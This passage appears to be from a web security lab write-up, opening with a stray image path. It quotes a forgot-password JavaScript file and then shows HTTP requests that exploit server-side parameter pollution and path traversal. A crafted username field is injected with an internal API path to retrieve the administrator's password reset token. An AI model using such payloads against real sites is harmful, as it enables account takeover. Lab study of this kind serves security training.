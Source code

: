 **`/static/js/forgotPassword.js`:**
```javascript
let forgotPwdReady = (callback) => {
    if (document.readyState !== "loading") callback();
    else document.addEventListener("DOMContentLoaded", callback);
}
[...]
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

When the DOM (Document Object Model) has fully loaded, if GET parameter name `reset-token` exist, it'll redirect us to `/forgot-password?passwordResetToken=<resetToken>`.

Hmm... What if we **exploit the server-side parameter pollution and path traversal to retrieve `administrator`'s reset token**??

To do so, we first generate a reset token for account `administrator`:

```http
POST /forgot-password HTTP/2

csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=administrator
```

**Then, exploit the server-side parameter pollution and path traversal to get its reset token:**
```http
POST /forgot-password HTTP/2

csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=foobar%2f..%2f..%2f..%2f..%2f..%2f/api/internal/v1/users/administrator/field/passwordResetToken%23
```
